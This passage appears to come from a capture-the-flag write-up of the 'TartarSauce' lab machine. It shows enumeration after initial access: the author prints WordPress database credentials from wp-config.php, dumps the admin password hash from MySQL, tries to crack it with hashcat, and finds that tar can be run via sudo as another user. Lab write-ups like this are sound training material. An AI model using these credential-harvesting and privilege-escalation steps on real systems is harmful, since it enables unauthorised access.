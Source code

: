 ```bash
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

Nothing.

Let’s check wp configuration files:

```bash
cat wp-config.php

/** MySQL database username */
define('DB_USER', 'wpuser');                                            
                                                                        
/** MySQL database password */
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');

```

We know there is a mysql running on the server, let’s login:

```bash
mysql -h localhost -u wpuser -p

show databases;

use wp;

show tables;

select * from wp_users;

wpadmin:$P$BBU0yjydBz9THONExe2kPEsvtjStGe1
```

Let’s crack the password with hashcat:

```bash
.\hashcat.exe wordlists\admin_hash.txt wordlists\rockyou.txt -m 400
```

No result.

Let’s check our sudo privlieges:

```bash
sudo -l

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

We can run tar as onuma.

